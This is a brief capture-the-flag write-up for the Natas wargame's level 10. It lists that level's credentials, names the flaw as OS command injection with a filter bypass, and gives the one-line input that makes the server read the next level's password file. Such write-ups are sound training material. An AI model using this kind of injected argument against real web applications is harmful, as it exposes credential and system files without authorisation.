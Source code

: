 # Username
natas10
# Password
t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
# Web vulnerability
OS command injection with filter bypass.
# Method of solve
Use the command as intended, but access the password instead
```
a /etc/natas_webpass/natas11 #
```
